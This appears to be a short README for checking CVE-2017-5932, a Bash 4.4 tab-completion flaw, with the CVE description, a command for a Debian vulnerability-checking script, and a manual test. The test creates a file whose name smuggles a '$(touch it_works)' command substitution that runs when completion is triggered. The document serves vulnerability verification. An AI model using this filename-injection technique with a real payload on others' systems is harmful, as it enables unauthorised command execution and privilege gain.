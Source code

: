 # CVE-2017-5932

### Description
The path autocompletion feature in Bash 4.4 allows local users to gain privileges via a crafted filename starting with a " (double quote) character and a command substitution metacharacter.
### Command to run
```shell
python cve_debian.py -n 2017-5932 -v bullseye -d bash -s
```

### Simple testing method

```shell
su toto;
cd
touch '" $(touch it_works)'
rm \" $(touch it_works) ^C #Type auto-completion key after " and then cancel 
ls
```
The file `it_works` is created.